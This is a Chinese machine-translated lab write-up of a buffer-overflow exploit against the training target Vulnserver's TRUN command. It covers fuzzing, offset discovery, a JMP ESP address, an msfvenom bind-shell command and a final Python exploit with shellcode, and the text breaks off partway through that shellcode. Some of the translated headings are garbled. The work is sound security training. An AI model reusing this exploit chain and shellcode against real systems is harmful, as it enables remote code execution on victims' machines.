# Vulnserver —第 2 部分

> 原文：<https://infosecwriteups.com/expdev-vulnserver-part-2-46de4dd7bdde?source=collection_archive---------1----------------------->


# Vulnserver —第 2 部分(中继— EIP 覆盖)

这将是第二个`vulnserver` exploit 系列。我们将模糊和利用第一个易受攻击的命令`TRUN`。然后，我们将做一个`EIP`覆盖来引入我们的 shell 代码，最终在目标系统上获得一个 bind shell。我们开始吧！

# 实验室环境

*   **操作系统:** Windows 7 (x86)
*   **调试器:** OllyDbg，WinDbg (mona.py)
*   **模糊器:**模糊器
*   **目标:** Vulnserver — TRUN 命令

详细的实验室设置指南可在[这里](https://medium.com/@bigb0ss/expdev-vulnserver-part-1-ba35b9e36478)找到:

*   "第一部分"

# 初步侦察

在 Windows 7 的机器上运行 Vulnserver 后，我们可以使用`netcat`连接服务器。

```
c:\> ncat 127.0.0.1 9999
```



# 起毛

## 起毛简介

Boofuzz 确实有一个非常好的快速入门指南，以及一些用户可以使用的预建示例脚本。

*   **快速启动**—[https://boofuzz . readthe docs . io/en/latest/user/quick start . html](https://boofuzz.readthedocs.io/en/latest/user/quickstart.html)
*   **例子**——[https://github.com/jtpereyda/boofuzz/tree/master/examples](https://github.com/jtpereyda/boofuzz/tree/master/examples)

简而言之，Boofuzz 的模糊化过程非常简单。以下示例是 Boofuzz 脚本的必要组件的快速参考:

```
**### Session Object**
session = Session(target=Target(connection=TCPSocketConnection("<IP>", <PORT>))) **### Message 's_initialize' Function**
s_initialize("user")    
s_string("USER")    
s_delim(" ")    
s_string("anonymous")    
s_static("\r\n") **### Session Connect**
session.connect(s_get("user")) **### Session Fuzz**
session.fuzz()
```

## 模糊脚本

让我们创建一个初始的 Boofuzz 脚本来模糊化`vulnserver`，具体来说，我们的目标是 TRUN 命令。



来源:[fuzz _ trun . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/fuzz_trun.py)

## 调试器设置(*附加 vulnserver.exe)

在运行 Boofuzz 脚本之前，让我们用 OllyDbg 附加`vulnserver`。



附加 vulnserver

当`vulnserver`连接到调试器时，让我们运行`fuzz_trun.py`脚本，并观察调试器中的任何崩溃。

```
**### Running the Fuzzer**
C:\Users\bigb0ss\Desktop\scripts>python fuzz_trun.py
```

运行我们的 fuzzing 脚本几秒钟后，`vulnserver`崩溃，现在`EIP`被 fuzzer 提供的字符覆盖。



初始碰撞

## 模糊分析

Boofuzz 的一个惊人之处是，它在 fuzzing 脚本所在的同一个目录中创建日志文件。


Boofuzz-results =日志文件

当我们进入“boofuzz-results”文件夹时，我们将看到“DB File”格式的日志文件。


模糊日志文件

我们可以使用“DB Browser for SQLite”来浏览和进一步分析这个文件一旦打开 DB 文件，将`Table:`更改为`steps`。



从上面的“初始崩溃”截图中，我们可以确定崩溃的发生是由于为 TRUN 命令的参数发送了太多的字符。现在，我们需要找出导致崩溃的字符数。为此，让我们在“数据库浏览器”中进行一些过滤

> **过滤“中继…”在“数据”字段中**



不幸的是，在这种情况下，从过滤结果中产生了太多的“测试用例”。我们很难确定有多少字节导致了崩溃。我们在这里可以做的是返回到 OllyDbg，粗略地计算发送了多少个字符(在这种情况下，查看`EAX`寄存器，并计算有多少个`2E`)。



结果是大约 3000 个字符。通过再次查看“test_cases ”,发送的最接近的字节数是“test_case_index”的 702。让我们在“数据库浏览器”中进行过滤



test_case 702 发送了 4099 个字节，我们相信这足以使 vulnserver 崩溃。接下来，让我们创建一个利用脚本来复制崩溃，并进一步找到偏移量。

# 剥削

## 初始崩溃概念验证

让我们创建一个 python 脚本来重现崩溃。



来源:[crash _ trun . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/crash_trun.py)

启动`vulnserver`并将其连接到 OllyDbg。然后，运行`crash_trun.py`脚本。我们成功地用 PoC 脚本重现了崩溃。



再现车祸

## 寻找偏移

作为一个通常的`EIP`覆盖漏洞利用过程，我们的下一步将是找到一个偏移量来控制崩溃时的`EIP`。我们首先需要创建 4099 个独特的角色。我们将使用 WinDbg 和 mona.py 的`pattern_create`模块来实现这一点。

打开 WinDbg 并附加一个 begin 进程(如“firefox.exe ”)来启动命令控制台。


然后，键入以下命令来创建模式。

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Pattern_create**
!py mona pattern_create 4099
```



让我们用创建的模式更新 PoC 脚本，并再次针对`vulnserver`运行脚本。



更新的 PoC 脚本



尝试找到偏移量

`EIP`现在被值`396F4338`覆盖。让我们再次使用 mona.py 来查找偏移量。这次，我们将使用名为`pattern_offset`的模块。

```
**### Mona.py Pattern_offset**
!py mona pattern_offset 396F4338
```



太好了。它找到的偏移量为`2006`。让我们再次更新我们的 PoC 脚本，并通过对`vulnserver`运行它来确认偏移量。



来源:[big b0ss 偏移量 _ trun . py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/offset_trun.py)



确认偏移量

偏移确实是正确的。现在，我们都准备在坠机时控制`EIP`。

## 查找坏字符

开发漏洞时，提前发现坏的角色总是一个好的做法。我们将使用 mona.py 的`bytearray`命令创建一个从`\x01`到`\xFF`的字节列表。(`\x00` =空终止符通常是一个坏字符，所以我们可以在生成带有`-cpb`标志的列表时将其排除)

```
**### Mona.py Bytearray**
!py mona.py bytearray -cpb \x00
```



让我们用那些`bytearray`更新我们的 PoC 脚本。



来源:[big b0ss 编写的 bad char _ trun . py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/badchar_trun.py)

然后，再次将`vulnserver`连接到 OllyDbg，并运行`badchar_trun.py`脚本。当它崩溃时，检查`ESP`位置，看是否有任何字节被损坏。



检查不良字符

没有字节被损坏，我们擅长检查坏字符。

## 寻找 JMP-专门用途英语

像往常一样`EIP`覆盖 BOF 漏洞，我们现在需要找到一个`JMP ESP`指令。然后，我们将在`ESP`位置引入我们的外壳代码，并将执行流程重定向到那里来执行我们的外壳代码。

这次让我们把 vulnserver 连接到 WinDbg，这样我们就可以使用 mona.py 在应用程序的 dll 中找到`JMP ESP`。我们将再次使用`-cpb`标志来排除任何包含`\x00`的地址。(默认情况下，它还在非 ASLR 或非 Rebase 模块中搜索。)

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Finding JMP ESP**
!py mona jmp -r esp -cpb '\x00'
```



寻找 JMP 专门用途英语

让我们使用其中一个地址`0x62501205`，并更新我们的 PoC 脚本。再次将 vulnserver 连接到 OllyDbg，并在`0x62501205` ( `JMP ESP`)地址设置一个断点。



断点

当我们运行 PoC 脚本时，我们确实找到了`JMP ESP`地址和断点。



来源:[jmp _ esp _ trun . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/jmp_esp_trun.py)



JMP ESP (0x `62501205)`

当我们按下`F7`来单步执行指令时，我们成功地跳到了`ESP`，我们拥有了所有可以放置外壳代码的空闲空间。



## MSF 毒液结合壳

现在我们有大约 2000+的自由空间来放置我们的外壳代码。引入 bind shell 的空间会很大。让我们使用`msfvenom`来创建我们的外壳代码。

```
**### msfvenom Bind Shell**
$ msfvenom -p windows/shell_bind_tcp LPORT=443 -b '\x00' EXITFUNC=thread -f python*(*I used a x86 Kali Linux to create the shellcode)*
```



msfvenom 外壳代码

## 最终利用

让我们用创建的外壳代码来完成我们的 PoC 脚本。此外，在外壳代码前添加一些 no sled(`\x90`)，以便我们的外壳代码可以正确地添加到堆栈中。

```
**###** [**Final_trun.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/final_trun.py)import socket
import struct
import os
import systrun = "TRUN ."
offset = 2006
eip = struct.pack("<I", 0x62501205)                ** # JMP ESP**
nop = "\x90" * 50                                   **# Nopsled** buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
